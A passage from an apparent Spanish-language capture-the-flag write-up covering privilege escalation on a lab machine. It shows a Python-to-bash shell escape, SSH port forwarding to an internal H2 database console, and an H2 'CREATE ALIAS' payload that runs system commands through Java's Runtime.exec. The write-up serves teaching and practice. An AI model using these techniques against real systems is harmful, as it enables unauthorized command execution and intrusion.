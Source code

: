 Dentro de aquí no he encontrado anda en claro.

Por lo que probé la contraseña con el usuario Daniel y…

![](id.png)

Estamos dentro del usuario Daniel, pero con una interfaz de python, pero que es fácil de escapar de ella.

`import subprocess ` 
`subprocess.call('/bin/bash', shell=True)`

Mediante estos comandos escapamos del lenguaje y volvemos a tener una shell normal.

Ahora lo que hice yo es meterme por el protocolo **ssh** para tener una shell más potente.

Puse esto una vez arrancada la shell y ya no tenía posibilidad de que se me cerrara.

`import pty;pty.spawn('/bin/bash')`

![](daniel.png)



## Escalada II:

Como sabemos desde un primer momento se está ejecutando una base de datos llamada **H2** a la cual podemos acceder por el navegador pero no nos muestra nada en claro.

Investigando un poco encontré un proceso.

![](psaux.png)

Ahora mediante un túnel con el protocolo ssh decidí túnelizar la conexión de la máquina víctima con la mia de atacante.

`ssh danuel@10.129.95.192 -L 8082:localhost:8082`

![](h2.png)

Si busco localhost y el puerto es como si estuviera en mi máquina atacante, de esta manera:

![](maps.png)

Básicamente, si yo abro el localhost en mi maquina es como si lo estuviera abriendo en el localhost de la máquina víctima.

Yo en esta parte de la escalada tiré un poco de lógica y cambie el nombre de la base de datos de “test” a “drupal”.

![](h2_1.png)

Me dio acceso.

Finalmente, lo que hice fue buscar por internet posibles payloads a ver si podía ejecutar comandos.

```console
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : ""; }$$;  
CALL SHELLEXEC('whoami')
```
